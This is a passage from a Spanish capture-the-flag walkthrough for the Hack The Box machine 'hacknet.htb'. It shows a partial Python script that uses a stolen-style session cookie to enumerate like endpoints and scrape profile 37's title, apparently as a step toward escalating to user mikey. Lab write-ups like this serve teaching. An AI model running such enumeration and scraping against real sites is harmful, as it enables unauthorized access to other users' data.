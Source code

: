 ## Escalate user mikey

Para no tener que estar dandole `like` uno por uno y despues enviar la segunda peticion para comprobarlo, vamos a montarnos un script que haga todo esto de forma automatica.

> fuzzIDs.py

```python
#!/usr/bin/env python3
import requests
import re
from concurrent.futures import ThreadPoolExecutor, as_completed

def scan_for_profile_37(target, csrf_token, session_id, max_id=100):
    """
    Escanea endpoints /like/{id} y /likes/{id} del 0 al 100
    y filtra SOLO el perfil con ID 37
    """
    
    headers = {
        'Host': 'hacknet.htb',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Referer': 'http://hacknet.htb/explore',
        'X-Requested-With': 'XMLHttpRequest',
        'Connection': 'keep-alive',
        'Cookie': f'csrftoken={csrf_token}; sessionid={session_id}',
        'Priority': 'u=0'
    }
    
    found_instances = []
    
    def check_like_endpoint(likes_id):
        """Verifica endpoint /like/{id} para perfil 37"""
        try:
            url = f"{target}/like/{likes_id}"
            response = requests.get(url, headers=headers, timeout=5, verify=False)
            
            if response.status_code == 200:
                # Buscar específicamente el perfil 37
                if '/profile/37' in response.text:
                    # Extraer el título del perfil 37
                    match = re.search(
                        r'<div class="likes-review-item"><a href="/profile/37"><img src="[^"]+" title="([^"]+)"></a></div>',
                        response.text
                    )
                    if match:
                        title = match.group(1)
                        found_instances.append(f"Endpoint /like/{likes_id} -> /profile/37 - title=\"{title}\"")
                        print(f"[+] ENCONTRADO: /like/{likes_id} -> /profile/37 - title=\"{title}\"")
                        
        except Exception as e:
            print(f"[-] Error en /like/{likes_id}: {e}")
    
    def check_likes_endpoint(likes_id):
        """Verifica endpoint /likes/{id} para perfil 37"""
        try:
            url = f"{target}/likes/{likes_id}"
            response = requests.get(url, headers=headers, timeout=5, verify=False)
```
